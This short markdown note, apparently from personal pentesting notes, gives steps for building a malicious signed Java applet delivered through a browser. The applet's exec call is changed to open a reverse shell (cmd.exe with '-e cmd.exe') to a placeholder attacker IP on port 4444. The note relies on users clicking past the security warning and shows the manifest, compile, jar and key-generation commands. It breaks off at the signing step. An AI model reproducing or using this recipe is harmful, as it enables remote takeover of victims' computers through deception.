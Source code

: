 #Java Applet run from browser
Will give warning message but users may just click yes

1. Modify the `Java.java` applet as required, in this case I change `f = Runtime.getRuntime().exec("cmd.exe /c " + expath);` to `f = Runtime.getRuntime().exec("cmd.exe /c " + expath + "YO.UR.IP.ADR 4444 -e cmd.exe");`

2. Create a manifest file using `echo "Permissions: all-permisions" > /root/manifest.txt`

3. Compile the code using `javac Java.java` then `jar cvfm Java.java /root/manifest.txt Java.class`

4. Then generate a key `keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123` answering the questions as you see fit

5. And sign the applet ``
